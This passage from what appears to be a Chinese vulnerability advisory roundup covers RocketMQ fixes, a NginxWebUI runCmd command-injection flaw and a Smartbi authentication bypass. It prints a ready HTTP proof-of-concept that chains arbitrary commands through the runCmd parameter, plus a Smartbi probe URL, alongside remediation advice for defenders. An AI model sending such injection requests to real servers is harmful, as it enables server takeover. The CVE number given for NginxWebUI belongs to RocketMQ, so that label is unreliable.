   1. RocketMQ 的 NameServer、Broker、Controller 组件非必要不暴露在公网。同时，建议增加访问权限认证。
  2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：https://rocketmq.apache.org/download

# 16、 **NginxWebUI runCmd 远程代码执行漏洞**

该漏洞源于开发人员没有对 runCmd
接口处传入的参数进行有效过滤，攻击者可在无需登录的情况下绕过路由权限校验，通过拼接语句的方式执行任意命令，最终控制服务器。  
 **漏洞标签：** 利用链成熟、历史重大漏洞、服务器权限相关、影响范围广  
 **漏洞编号：** CVE-2023-33246  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. nginxWebUI < 3.5.1（v3.5.1 版本修复了登陆绕过漏洞，但是 RCE 漏洞在最新版本（v3.6.5）中仍可绕过防护进行利用）

 **利用方法：**  
poc

    
    
    GET /AdminPage/conf/runCmd?cmd=执行的命令%26%26echo%20nginx HTTP/1.1  
    Host: your-ip  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0  
    

检测工具  
https://github.com/chaitin/xpoc  
 **修复建议**

  1. 通过设置安全组功能，仅对可信地址和内网开放 nginxWebUI 来缓解风险。
  2. 官方已发布漏洞补丁及修复版本，但组件修复不完全，防护机制可被绕过，且其他接口仍存在多个高危漏洞。因此建议受漏洞影响的用户及时关注厂商公告并及时更新 NginxWebUI：http://file.nginxwebui.cn/nginxWebUI-3.6.5.jar

# 17、 **Smartbi 商业智能软件绕过登录漏洞**

该漏洞源于 Smartbi
默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。  
 **漏洞标签：** 利用链成熟、国产系统、影响范围广  
 **漏洞编号：** 无  
 **漏洞类型：** 认证绕过  
 **受影响版本：**

  1. V7 <= Smartbi <=V10

 **利用方法：**  
验证漏洞是否存在

    
    
    http://your-ip/smartbi/vision/RMIServlet  
    

出现以下回显证明漏洞存在
